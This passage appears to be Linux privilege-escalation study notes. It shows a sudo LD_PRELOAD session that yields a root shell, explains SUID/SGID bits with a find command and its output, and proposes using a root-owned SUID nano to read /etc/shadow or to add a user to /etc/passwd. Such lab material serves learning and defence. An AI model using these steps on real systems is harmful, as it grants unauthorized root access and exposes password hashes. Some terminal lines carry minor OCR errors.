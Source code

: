 ```bash
user@debian:~/ldpreload$ id
uid=1000(user) gid=1000(user) groups=1000(user), 24(cdrom), 25(floppy), 29(audio), 30(dip), 44(video), 46(plugdev)
user@debian: ~/ldpreload$ whoami
user
user@debian:~/ldpreload$ sudo LD_PRELOAD=/home/user/ldpreload/shell.so find root@debian:/home/user/ldpreload# id
uid-0(root) gid-0(root) groups=0(root)
root@debian:/home/user/ldpreload# whoami
root
root@debian:/home/user/ldpreload#
```

### SUID

Much of Linux privilege controls rely on controlling the users and files interactions. This is done with permissions. By now, we know that files can have read, write, and execute permissions. These are given to users within their privilege levels. This changes with **SUID** (Set-user Identification) and **SGID** (Set-group Identification). These *allow files to be executed with the permission level of the file owner or the group owner*, respectively. ^257fb3

You will notice these files have an “**s**” bit set showing their special permission level.

`find / -type f -perm -04000 -ls 2>/dev/null` will list files that have SUID or SGID bits set.

```bash
$ find / -type f -perm -04000 -ls 2>/dev/null
       66     40 -rwsr-xr-x   1 root     root        40152 Jan 27  2020 /snap/core/10185/bin/mount
       80     44 -rwsr-xr-x   1 root     root        44168 May  7  2014 /snap/core/10185/bin/ping
       81     44 -rwsr-xr-x   1 root     root        44680 May  7  2014 /snap/core/10185/bin/ping6
       98     40 -rwsr-xr-x   1 root     root        40128 Mar 25  2019 /snap/core/10185/bin/su
      116     27 -rwsr-xr-x   1 root     root        27608 Jan 27  2020 /snap/core/10185/bin/umount
     2610     71 -rwsr-xr-x   1 root     root        71824 Mar 25  2019 /snap/core/10185/usr/bin/chfn
     2612     40 -rwsr-xr-x   1 root     root        40432 Mar 25  2019 /snap/core/10185/usr/bin/chsh
     2689     74 -rwsr-xr-x   1 root     root        75304 Mar 25  2019 /snap/core/10185/usr/bin/gpasswd
     2781     39 -rwsr-xr-x   1 root     root        39904 Mar 25  2019 /snap/core/10185/usr/bin/newgrp
     2794     53 -rwsr-xr-x   1 root     root        54256 Mar 25  2019 /snap/core/10185/usr/bin/passwd
     2904    134 -rwsr-xr-x   1 root     root       136808 Jan 31  2020 /snap/core/10185/usr/bin/sudo
```

Example:

The SUID bit set for the nano text editor allows us to create, edit and read files using the file owner’s privilege. Nano is owned by root, which probably means that we can read and edit files at a higher privilege level than our current user has. At this stage, we have two basic options for privilege escalation: reading the `/etc/shadow` file or adding our user to `/etc/passwd`.

Below are simple steps using both vectors.
